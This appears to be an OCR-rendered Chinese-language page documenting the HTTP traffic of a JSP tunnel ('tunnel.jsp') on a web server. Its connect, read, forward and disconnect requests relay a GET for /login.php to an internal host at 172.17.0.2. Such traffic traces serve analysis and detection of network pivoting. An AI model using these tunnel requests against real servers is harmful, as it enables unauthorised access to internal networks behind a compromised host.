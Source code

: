 ### Web服务器（ServerA）
- **连接请求（cmd=connect）**：
  ```plaintext
  POST http://182.x.x.x:8080/tunnel.jsp?cmd=connect&target=172.17.0.2&port=80 HTTP/1.1
  Host: 182.x.x.x:8080
  Accept-Encoding: identity
  X-CMD: CONNECT
  X-TARGET: 172.17.0.2
  X-PORT: 80
  User-Agent: python-urllib3/1.26.2
  HTTP/1.1 200 OK
  Server: Apache-Coyote/1.1
  X-STATUS: OK
  Content-Length: 0
  ```
- **读取请求（cmd=read）**：
  ```plaintext
  POST /tunnel.jsp?cmd=read HTTP/1.1
  Host: 182.x.x.x:8080
  Accept-Encoding: identity
  X-CMD: READ
  Transfer-Encoding: chunked
  User-Agent: python-urllib3/1.26.2
  HTTP/1.1 200 OK
  X-STATUS: OK
  ```
- **转发请求（cmd=forward）**：
  ```plaintext
  POST /tunnel.jsp?cmd=forward HTTP/1.1
  Host: 182.x.x.x:8080
  Accept-Encoding: identity
  Content-Length: 83
  X-CMD: FORWARD
  GET /login.php HTTP/1.1
  Host: 172.17.0.2
  User-Agent: curl/7.68.0
  Accept: */*
  HTTP/1.1 200 OK
  X-STATUS: OK
  ```
- **断开请求（cmd=disconnect）**：
  ```plaintext
  POST /tunnel.jsp?cmd=disconnect HTTP/1.1
  Host: 182.x.x.x:8080
  Accept-Encoding: identity
  X-CMD: DISCONNECT
  HTTP/1.1 200 OK
  X-STATUS: OK
  ```

### 内网服务器
- **内网请求**：
  ```plaintext
  GET /login.php HTTP/1.1
  Host: 172.17.0.2
  User-Agent: curl/7.68.0
  Accept: */*
  HTTP/1.1 200 OK
  Server: Apache/2.4.7 (Ubuntu)
  Content-Length: 1567
  Content-Type: text/html;charset=utf-8
  ```
